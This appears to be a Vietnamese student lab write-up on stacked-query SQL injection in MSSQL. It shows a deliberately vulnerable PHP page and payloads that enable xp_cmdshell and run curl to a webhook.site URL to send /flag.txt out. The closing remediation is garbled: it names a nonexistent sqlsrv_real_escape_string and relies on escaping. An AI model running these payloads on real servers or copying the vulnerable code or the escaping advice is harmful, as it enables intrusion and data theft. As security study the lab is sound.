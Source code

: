 ### Tìm hiểu về SQL Injection thông qua Stacked query, demo trên MSSQL

- Stacked Query là một kỹ thuật SQL injection trong đó người tấn công thêm một hoặc nhiều câu lệnh SQL vào sau câu lệnh SQL gốc, từ đó thực hiện nhiều hành động trong một lần thực thi.



# Link demo : 
# Cách khắc phục :

- Hoặc làm sạch đầu vào   $cleaned_username = sqlsrv_real_escape_string($conn, $name);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.


+ Bắt đầu vào với một giao diện như trên
![Alt text](./imageStackQuery/image.png)

- Đây là đoạn code bị dính lỗi

<?php
require_once "../config/connectMssql.php";

if (isset($_GET['name'])) {
    global $conn;
    $name = $_GET['name'];
    $tsql = "SELECT * FROM $name";

    $stmt = sqlsrv_query($conn, $tsql);
    if( $stmt === false )
    {
        echo "Lỗi truy vấn.</br>";
        die( print_r( sqlsrv_errors(), true));
    }

    if ($stmt) {
           while( $row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC) ){
            echo '
                <div class="mt-56 bg-white rounded shadow dark:bg-gray-700">
                    <div class="relative z-20 p-6 group">
                        <div class="relative block h-64 mb-4 -mt-56 overflow-hidden rounded -top-full ">
                            <img class="object-cover w-full h-full transition-all group-hover:scale-110"
                                
                                 
                      
                            <div class="absolute flex flex-col top-4 right-4">
                                <!-- Wishlist and Cart buttons here -->
                            </div>
                        </div>
                        <a href="#">
                            <h2 class="mb-2 text-xl font-bold text-black dark:text-white">
                                ' . $row['name'] . '
                            </h2>
                        </a>
                        <p class="mb-3 text-lg font-bold text-blue-500 dark:text-blue-300 ">
                            <span>$' . $row['sale'] . '.00</span>
                            <span class="text-xs font-semibold text-gray-400 line-through ">$' . $row['price'] . '.00</span>
                        </p>
                        <div class="flex gap-1 text-orange-400">
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star" viewBox="0 0 16 16">
                   <path
                       d="M2.866 14.85c-.078.444.36.791.746.593l4.39-2.256 4.389 2.256c.386.198.824-.149.746-.592l-.83-4.73 3.522-3.356c.33-.314.16-.888-.282-.95l-4.898-.696L8.465.792a.513.513 0 0 0-.927 0L5.354 5.12l-4.898.696c-.441.062-.612.636-.283.95l3.523 3.356-.83 4.73zm4.905-2.767-3.686 1.894.694-3.957a.565.565 0 0 0-.163-.505L1.71 6.745l4.052-.576a.525.525 0 0 0 .393-.288L8 2.223l1.847 3.658a.525.525 0 0 0 .393.288l4.052.575-2.906 2.77a.565.565 0 0 0-.163.506l.694 3.957-3.686-1.894a.503.503 0 0 0-.461 0z" />
               </svg>
           </div>
                    </div>
                    
                </div>
            ';
        }
    } else {
        echo '<p class="font-bold text-center mt-48 text-xl">Invalid name or your hack me!!!</p>';
    }
    sqlsrv_free_stmt( $stmt);
    sqlsrv_close( $conn);
}
?>



<?php


//     $tsql = "SELECT sale FROM items; WAITFOR DELAY '0:0:10'";
    
//     $stmt = sqlsrv_query($conn, $tsql);
//     if( $stmt === false )
//     {
//         echo "Lỗi truy vấn.</br>";
//         die( print_r( sqlsrv_errors(), true));
//     }

//     $rows = [];
//     while( $row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC) )
//     {
//         $rows[] = $row;
//     }
//     print_r($rows);

//     sqlsrv_free_stmt( $stmt);
//     sqlsrv_close( $conn);
?>

- Có vẻ như là trang web này lấy giá trị param name và cho vào trong câu truy vấn
                                        $tsql = "SELECT * FROM $name";
- Bởi vì được truyền trực tiếp nên em có thể đoán là bị dính lỗi sql injection
- Em sẽ khai thác theo hướng thực thi shell trong MSSQL đây là một dạng stack query
- Vào trong burpsuite và chọn request bị dính lỗi như sau:
![Alt text](./imageStackQuery/image-1.png)

- Em thử thêm dấu ';' vào đằng sau và request vẫn thực hiện bình thường
![Alt text](./imageStackQuery/image-2.png)
- Sau đó em dùng payload "; WAITFOR DELAY '0:0:5'; -- "
- Em nhận lại được response sau 5s
![Alt text](./imageStackQuery/image-3.png)
- Điều này chứng tỏ là em có thể thực hiện chồng query ở trong trường hợp này
- Em muốn thực hiện được xp_cmdshell trong truy vấn để lấy dữ liệu
+ Ban đầu em sẽ phải cài đặt lại setting để có thể thực hiện shell

em tham khảo bài viết này:  https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
Và dùng payload :  ";EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE; WAITFOR DELAY '0:0:5'; --"

- Và em nhận được kết quả sau 5s  chứng tỏ là đã reconfig thành công
![Alt text](./imageStackQuery/image-4.png)

- Tiếp sau đó em thực thi shell curl đến webhook của em

 http://localhost/task2_KCSC/demo/stackQuery/index.php?name=items;EXEC%20xp_cmdshell%20%27curl+https://webhook.site/0e0a8778-5ef0-4657-8aec-84076f5a552e;%20WAITFOR%20DELAY%20%270:0:5%27;%20--%20%22

Và vào webhook em nhận được
![Alt text](./imageStackQuery/image-5.png)
- em tính revershell trên này mà để hôm sau em chuyển qua linux cho dễ ạ:v

Em dùng payload này để lấy thông tin file flag.txt
;EXEC%20xp_cmdshell%20%27curl+-X+POST+--data+"@/flag.txt"+-H+"Content-Type:+application/data"+https://webhook.site/0e0a8778-5ef0-4657-8aec-84076f5a552e%27;%20WAITFOR%20DELAY%20%270:0:5%27;%20--%20%22
![Alt text](./imageStackQuery/image-6.png)
Và kết quả:
![Alt text](./imageStackQuery/image-7.png)
Và em nhận được thông tin vậy là em đã RCE được sever @@
